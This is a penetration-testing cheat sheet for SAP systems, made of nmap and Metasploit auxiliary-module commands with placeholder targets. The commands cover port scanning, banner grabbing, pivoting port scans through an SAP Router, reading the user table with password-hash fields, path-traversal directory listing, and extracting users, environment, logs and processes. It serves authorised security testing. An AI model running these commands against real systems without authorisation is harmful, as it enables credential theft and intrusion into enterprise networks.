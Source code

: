 ```yaml
---
author(s):
  - Userware
tags:
  - information-gathering
  - active-fingerprinting
  - network-protocols
  - sap
  - network-mapper
  - metasploit-framework
---
```

# SAP

## 01 - Common Ports

```
$ nmap -p 3200-3299,3300-3399,8000-8099,8100-8199 -Pn -sV <IP>
```

## 02 - Banner Grab

```
msf > auxiliary/scanner/sap/sap_mgmt_con_version

msf auxiliary(scanner/sap/sap_mgmt_con_version) > run rhosts=<IP> rport=<PORT>
```

## 03 - Service Discovery

```
msf > use auxiliary/scanner/sap/sap_service_discovery

msf auxiliary(scanner/sap/sap_service_discovery) > run rhosts=<IP> rport=<PORT>
```

## 04 - Information Request

```
msf > use auxiliary/scanner/sap/sap_router_info_request

msf auxiliary(scanner/sap/sap_router_info_request) > run rhosts=<IP> rport=<PORT>
```

## 05 - Port Scanner

> [!INFO]
> If the scanner was able to discover `SAP Router` open port. This can be used as a proxy to enumerate deeper in the network port.

```
msf > use auxiliary/scanner/sap/sap_router_portscanner

msf auxiliary(scanner/sap/sap_router_portscanner) > set ports 32NN,80NN

msf auxiliary(scanner/sap/sap_router_portscanner) > run rhosts=<IP> rport=<PORT>
```

## 06 - System Information

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_system_info

msf auxiliary(scanner/sap/sap_soap_rfc_system_info) > set httpusername <username>

msf auxiliary(scanner/sap/sap_soap_rfc_system_info) > set httppassword <password>

msf auxiliary(scanner/sap/sap_soap_rfc_system_info) > run rhosts=<IP> rport=<PORT>
```

## 07 - RFC Table

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_read_table

msf auxiliary(scanner/sap/sap_soap_rfc_read_table) > set table <table_name>

msf auxiliary(scanner/sap/sap_soap_rfc_read_table) > set fields BNAME,BCODE,GLTGV,GLTGB,USTYP,CLASS,LOCNT,ACCNT,ANAME,ERDAT,TRDAT,LTIME,OCOD1,BCDA1,CODV1,OCOD2,BCCDA2,CODV2,OCOD3,BCDA3,CODV3,OCOD4,BCDA2,CODV2,OCOD3,VERSN,TZONE,PASSCODE,PWDHISTORY

msf auxiliary(scanner/sap/sap_soap_rfc_read_table) > set httpusername <username>

msf auxiliary(scanner/sap/sap_soap_rfc_read_table) > set httppassword <password>

msf auxiliary(scanner/sap/sap_soap_rfc_read_table) > run rhosts=<IP> rport=<PORT>
```

## 08 - Path Traversal

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_eps_get_directory_listing

msf auxiliary(scanner/sap/sap_soap_rfc_eps_get_directory_listing) > set httpusername <username>

msf auxiliary(scanner/sap/sap_soap_rfc_eps_get_directory_listing) > set httppassword <password>

msf auxiliary(scanner/sap/sap_soap_rfc_eps_get_directory_listing) > run rhosts=<IP> rport=<PORT>
```

## 09 - OS File Existence

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_pfl_check_os_file_existence

msf auxiliary(scanner/sap/sap_soap_rfc_pfl_check_os_file_existence) > set httpusername <username>

msf auxiliary(scanner/sap/sap_soap_rfc_pfl_check_os_file_existence) > set httppassword <password>

msf auxiliary(scanner/sap/sap_soap_rfc_pfl_check_os_file_existence) > run rhosts=<IP> rport=<PORT>
```

## 10 - Log Files

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_getlogfiles
```

## 11 - Get Environment

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_getenv
```

## 12 - Extract Users

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_extractusers
```

## 13 - Access Points

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_getaccesspoints
```

## 14 - Process List

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_getprocesslist
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/A - Information Gathering/0x01 - Passive Fingerprinting/0xD - Network Ports/SAP]]

### Hacktricks

- [Hacktricks: Pentesting SAP](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-sap.html)

### Walter Oberacher

- [Walter Oberacher: SAP PENTEST](https://medium.com/swlh/erp-pentest-metasploit-writeup-e65de8ece7d1)

### Red & Blue Team Security

- [Red & Blue Team Security: Penetration Testing SAP Systems - A Real-World Case Study I](https://www.rbtsec.com/blog/unlocking-the-secrets-of-sap-penetration-testing/)